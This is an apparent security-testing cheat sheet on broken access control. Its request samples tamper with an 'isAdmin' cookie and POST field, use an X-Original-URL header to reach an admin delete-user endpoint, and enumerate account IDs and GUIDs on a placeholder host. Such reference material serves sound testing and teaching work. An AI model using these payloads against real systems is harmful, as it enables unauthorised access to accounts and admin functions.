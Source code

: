 ```yaml
---
title: Broken Access Control Examples
desc: Examples of Broken Access Controls.
tags: [AccessControl, IDOR, PrivEsc, Web]
alts: [IDORExamples]
website: 
render_with_liquid: false
---
```


## Request parameter

```html
<!-- Change parameter -->
Cookie: isAdmin=true
```

<br />

## POST body

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## Request method and X-Original-URL

```
POST / HTTP/1.1
...
X-Original-URL: /admin/deleteUser
...

username=michael
```

<br />

## User ID

```
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator
```

<br />

## GUID (globally unique identifier)

GUID cannot be guessed but it may be found somewhere in the website.

```
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```